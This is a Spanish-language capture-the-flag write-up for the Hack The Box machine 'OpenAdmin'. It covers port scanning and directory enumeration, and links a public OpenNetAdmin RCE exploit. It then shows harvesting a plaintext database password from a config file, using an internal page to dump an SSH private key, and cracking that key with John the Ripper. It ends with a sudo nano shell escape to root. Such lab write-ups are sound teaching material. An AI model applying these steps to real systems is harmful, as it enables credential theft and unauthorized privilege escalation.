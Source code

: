 # Openadmin ![Avatar](https://www.hackthebox.eu/storage/avatars/5b00db157dbbd7099ff6c0ef10f910ea_thumb.png)     

### Initial Scan

```nmap
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
### Enumeration

Empecemos enumerando el servicio web 
```bash
gobuster dir -u http://10.10.10.171/ -w wordlists/big.txt
/artwork (Status: 301)
/music (Status: 301)
/sierra (Status: 301)
```
Miramos en /music y cuando pulsas el login nos lleva a /ona donde se nor muestra una pantalla de el servicio OpenNetAdmin donde se nos revela que la versión es la 18.1.1
### Exploit

La versión de OpenNetAdmin presenta una vulerabilidad RCE conocida
```
https://www.exploit-db.com/exploits/47691
```
Usandolo obtenemos una shell como www-data

### Local recon

#### Enumeramos usuarios con acceso via shell
```
$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
#### Buscamos contraseñas
```
cat local/config/database
    'db_type' => 'mysqli',
    'db_host' => 'localhost',
    'db_login' => 'ona_sys',
    'db_passwd' => 'n1nj4W4rri0R!',
    'db_database' => 'ona_default',
    'db_debug' => false,
```
### Jimmy
Probamos la contrasña obtenida en jimmmy en joanna y obtenemos acceso a el usuario jimmy
```
jimmy@openadmin:~$ netstat -aln | grep 127
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:58948         127.0.0.1:52846         TIME_WAIT  
```
Vemos que hay paginas en localhost
```
jimmy@openadmin:~$ curl 127.0.0.1:52846
```
Vemos que tenemos una pagina de login
```
jimmy@openadmin:cd /var/www/internal
jimmy@openadmin:/var/www/internal$ ls -l
total 12
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```

En index.php encontramos el siguiente fragmento de código
#### Index.php
```
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
    if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
}
```
#### Main.php
```
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
```
Con todo esto podriamos obtener el id_rsa de joanna y logearnos en su cuenta

El hash corresponde a la palabra Revealed, asi que podemos logearnos sin problema
```bash
curl -XPOST localhost:52846 -d "login&username=jimmy&password=Revealed" -L -v | grep PHPSESSID
PHPSESSID=i3spbj9jben1bon5alpr0ek1at
curl localhost:52846/main.php -H "PHPSESSID=i3spbj9jben1bon5alpr0ek1at" -v
```
Con esto obtenemos la clave RSA

#### Crackeando la clave

Guardamos la clave RSA en local y la crrackeamos
```bash
$:/home/~/.JohnTheRipper/run/ssh2john.py OpenAdmin_rsa > hash.txt
$:/home/~/.JohnTheRipper/run/john hash.txt --wordlist=/home/~/rockyou.txt
> bloodninjas      (OpenAdmin_rsa)
```

### Joanna

```bash
$:ssh -i OpenAdmin_rsa joanna@10.10.10.171
joanna@openadmin:~$ wc -c user.txt 
33 user.txt
```

### Privesc

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Veamos como podemos explotar esto
```bash
sudo /bin/nano /opt/priv
```
Una vez abierto nano con privilegios elevados usamos CTRL-R + CTRL+X y podemos ejecutar
```bash
reset; sh 1>&0 2>
```
Y solo nos quedaria leer la flag
```
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/joanna
# cd /root
# ls
root.txt
# wc -c root.txt
33 root.txt
```

